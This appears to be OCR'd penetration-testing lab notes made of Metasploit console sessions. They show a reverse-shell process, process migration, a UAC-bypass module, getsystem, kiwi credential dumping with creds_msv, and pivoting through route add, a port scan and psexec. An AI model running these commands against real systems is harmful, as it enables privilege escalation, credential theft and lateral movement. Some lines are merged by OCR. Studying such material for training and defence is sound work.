 ```
meterpreter > ps

Process List
============
PID PPID Name
--- ---- ----
...
3116 904 WmiPrvSE.exe
3164 3568 shell_reverse_msf_encoded.exe x86 1 corp\offsec C:\Users\Offsec.corp\Desktop\shell_reverse_msf_encoded.exe
3224 808 msdtc.exe
3360 1156 sihost.exe C:\Windows\System32\sihost.exe 3544 808 syncbrs.exe
3568 1960 explorer.exe C:\Windows\explorer.exe
3820 808 svchost.exe C:\Windows\System32\svchost.exe ...

meterpreter > migrate 3568

```

Post exploitation modules

```

msf5 > use exploit/windows/local/bypassuac_injection_winsxs
msf5 exploit(windows/local/bypassuac_injection_winsxs) > show options

msf5 exploit(windows/local/bypassuac_injection_winsxs) > set SESSION 10 SESSION => 10
msf5 exploit(windows/local/bypassuac_injection_winsxs) > exploit

meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > help powershell

meterpreter > powershell_execute "$PSVersionTable.PSVersion"


meterpreter > load kiwi Loading extension kiwi...
Success.
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > creds_msv

```

Pivoting with Metasploit Framework

```

ipconfig

msf5 > route add 192.168.1.0/24 11 
[*] Route added
msf5 > route print

msf5 > use auxiliary/scanner/portscan/tcp
msf5 auxiliary(scanner/portscan/tcp) > set RHOSTS 192.168.1.110
RHOSTS => 192.168.1.110
msf5 auxiliary(scanner/portscan/tcp) > set PORTS 445,3389 
PORTS => 445,3389
msf5 auxiliary(scanner/portscan/tcp) > run


msf5 > use exploit/windows/smb/psexec
msf5 exploit(windows/smb/psexec_psh) > set SMBDomain corp
SMBDomain => corp
```
